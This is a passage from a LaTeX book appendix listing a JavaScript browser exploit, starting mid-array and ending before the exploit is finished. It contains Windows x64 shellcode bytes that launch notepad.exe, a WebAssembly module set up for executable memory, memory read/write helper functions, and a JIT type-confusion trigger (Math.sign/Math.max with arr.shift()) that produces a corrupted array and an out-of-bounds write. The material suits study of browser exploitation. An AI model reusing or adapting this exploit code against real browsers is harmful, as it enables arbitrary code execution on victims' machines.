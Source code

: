 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
	0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 
	0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
	0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
	0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
	0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
	0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
	0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
	0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
	0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
	0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
	0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
	0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
	0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
	130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
	0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
	6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
	0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
	97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
	132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;

\end{lstlisting}
\end{appendices}
\end{document}
